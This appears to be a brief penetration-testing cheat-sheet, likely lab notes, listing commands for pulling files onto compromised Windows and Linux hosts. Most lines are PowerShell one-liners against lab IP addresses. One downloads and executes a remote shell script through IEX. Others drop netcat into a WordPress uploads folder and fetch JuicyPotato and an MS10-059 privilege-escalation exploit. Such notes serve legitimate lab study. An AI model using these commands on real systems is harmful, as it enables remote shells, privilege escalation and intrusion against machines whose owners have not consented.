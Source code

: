 # window

``` powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"  ```

``` powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.111/nc64.exe','C:\inetpub\wwwroot\wordpress\wp-content\uploads\temo.exe'); ```

```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.39/JuicyPotato.exe','C:\inetpub\temp\JuicyPotato.exe')

(new-object net.webclient).downloadfile('http://10.10.14.39/Churraskito_exe/MS10-059.exe', 'C:\Users\merlin\Desktop\MS10-059.exe')


``

# Linux

``` wget http://filename -O finame ```

``` curl http://www.abc.com/123/def/ghi/jkl.mno -o filename ```
